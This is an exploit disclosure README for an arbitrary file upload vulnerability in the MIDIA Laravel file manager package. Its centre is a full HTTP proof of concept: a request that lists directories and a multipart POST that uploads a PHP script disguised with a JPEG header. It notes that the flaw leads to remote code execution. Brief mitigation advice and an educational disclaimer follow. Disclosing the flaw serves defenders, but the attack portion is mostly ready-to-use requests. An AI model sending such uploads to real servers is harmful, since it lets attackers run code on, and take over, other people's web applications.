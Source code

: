 # 🚨 MIDIA - Unrestricted File Upload / Arbitrary File Upload

**Exploit Title:** MIDIA Unrestricted File Upload / Arbitrary File Upload  
**Date:** 02 October 2024  
**Exploit Author:** Khunerable  
**Tested On:** Windows 11, Windows NT 10.0  
**Vendor Homepage:** [https://github.com/itskodinger/midia](https://github.com/itskodinger/midia/tree/master)  
**Link Description:** [https://cxsecurity.com/issue/WLB-2024100003](https://cxsecurity.com/issue/WLB-2024100003)
---

## 📄 Description

MIDIA is a file manager package for Laravel. A vulnerability exists that allows unauthenticated (or improperly authenticated) users to upload arbitrary files including PHP scripts to any available directory, resulting in remote code execution (RCE).

---

## 🧪 Proof of Concept (PoC)

### 📁 List Uploaded Files

To see the uploaded files and directory listings:

```
GET /midia/get/1?key=&directory_name=blog
```

Example:

```
https://example.com/midia/get/1?key=&directory_name=blog
```

---

### 📤 Upload Malicious File

**Request:**

```
POST /midia/upload?directory_name=blog HTTP/2
Host: example.com
Cookie: [Your Session Cookies]
X-Csrf-Token: [CSRF Token from target]
Content-Type: multipart/form-data; boundary=---------------------------boundary

-----------------------------boundary
Content-Disposition: form-data; name="file"; filename="dummy.php"
Content-Type: image/jpeg

ÿØÿà<?php phpinfo(); ?>
-----------------------------boundary--
```

You must replace:

- `directory_name=blog` with any available directory
- `X-Csrf-Token` with valid token
- Cookies with valid `XSRF-TOKEN` and session values

---

### ✅ Server Response

Successful upload will return a JSON response:

```json
{
  "success": "dummy.php"
}
```

Your file can be accessed at:

```
https://example.com/midia/get/1?key=&directory_name=blog
```

---

## ⚠️ Impact

This vulnerability allows an attacker to:

- Upload and execute arbitrary PHP code
- Gain remote access to the server
- Compromise entire Laravel applications using this package

---

## 🛡️ Recommendation

- Update or patch the MIDIA package to restrict file types and enforce authentication
- Implement server-side MIME validation
- Prevent `.php`, `.phar`, or similar executable uploads

---

> 📌 Disclaimer: This repository is for educational purposes only. Use responsibly.
